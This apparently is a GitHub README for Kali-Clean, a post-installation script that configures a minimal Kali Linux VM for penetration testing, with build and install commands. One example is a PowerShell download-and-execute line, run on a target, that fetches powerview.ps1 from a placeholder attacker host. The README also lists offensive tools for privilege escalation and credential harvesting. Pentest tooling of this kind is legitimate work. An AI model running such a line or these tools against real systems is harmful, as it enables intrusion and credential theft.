 # Kali-Clean

![screenshot](./images/screenshot.png?raw=true)

[xct/kali-clean](https://github.com/xct/kali-clean) with personal tweaks and borrowed ideas from [islanddog/kali-clean-pwnbox](https://github.com/islanddog/kali-clean-pwnbox).

This post-installation script is intended to be used on minimal Kali VM with no tools. I used [the official VM build script](https://gitlab.com/kalilinux/build-scripts/kali-vm) with the following options to get started. It should still work fine on a bare metal installation.

```
./build.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# alternatively
./build.sh -v qemu -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"
```

If you are building on a Windows machine:

- you will need WSL2
- install docker in WSL2

```
# confirm you are running WSL2
wsl --version

# start the docker service
sudo systemctl start docker

# continue building your kali VM
./build-in-container.sh -v vmware -D none -Z $(cat /etc/timezone) -T none -P "network-manager curl neovim"

# copy from WSL to your Windows host (eg. Downloads folder)
cp -r images/kali-linux-rolling-vmware-amd64.vmwarevm /mnt/c/Users/<USER>/Downloads
```

## Installation

```
sudo -sE ./install.sh 2>install.err
```

## QoL Improvements vs default Kali
- Built in cheatsheets using [Navi](https://github.com/denisidoro/navi)
```
navi --print
# alias is 'n'
n
```
- Windows binaries symlinked into Apache webroot
```
# binaries located in /var/www/html/win/
sudo systemctl start apache2
# on target
IEX(New-Object Net.WebClient).DownloadString("http://<LHOST>/win/powerview.ps1")
```
- Modularity: Optional install scripts in `kali-clean/optional_installs/`
```
# example: you want to install python2 for legacy python exploits
# reference: https://www.kali.org/docs/general-use/using-eol-python-versions/
# simply run the following script from the optional_installs folder
./install_python2.sh
```
- IP address of `tun0` is displayed, no need to run `ip a` everytime
- Better firefox profile: Removed default bookmarks, added useful extensions (eg. foxyproxy) and made restore tabs on startup the default.

## TODOs

- script to patch .local/share/navi/cheats
- [OPTIONAL] automount usb
- test pipewire ligolo-ng

## Checkout
Below are things I will get around to trying and will add them to the install script if I find them useful.
- https://github.com/trustedsec/unicorn
- https://github.com/sevagas/macro_pack
- https://github.com/Flangvik/SharpCollection
- https://github.com/bohops/GhostBuild
- https://github.com/AdrianVollmer/PowerHub
- https://github.com/BeichenDream/GodPotato
- https://github.com/antonioCoco/RunasCs
- Note: If using GodPotato, it's easier to create a new admin user and switch to them with RunasCs.
- https://github.com/AlessandroZ/LaZagne or Snaffler
- https://github.com/Azathothas/Toolpacks

## Credit
- https://github.com/AyoItsYas/Mainte

